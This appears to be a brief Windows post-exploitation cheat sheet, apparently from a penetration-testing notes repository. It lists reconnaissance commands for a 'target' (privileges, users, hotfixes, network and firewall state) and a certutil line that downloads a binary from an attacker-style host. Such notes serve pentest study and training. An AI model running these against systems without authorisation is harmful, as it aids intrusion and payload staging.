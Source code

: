 #windows 


Download a file
```powershell
certutil -urlcache -f http://10.10.10.1/<file> <binary_name>
```

### System information
`whoami /priv`
`net users`
`net localgroup administrators`
`systeminfo`

```powershell 
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

This information is very useful as it provides us with an idea of what specific version of Windows is running on the target and the updates that have been installed on the target system.

#### Network Information
`route print`
`arp -a` devices on network
`netstat -ano` tcp connections
`netsh firewall show state`
`netsh advfirewall firewall`
`netsh advfirewall show allprofiles`

### Process
`tasklist /SVC`
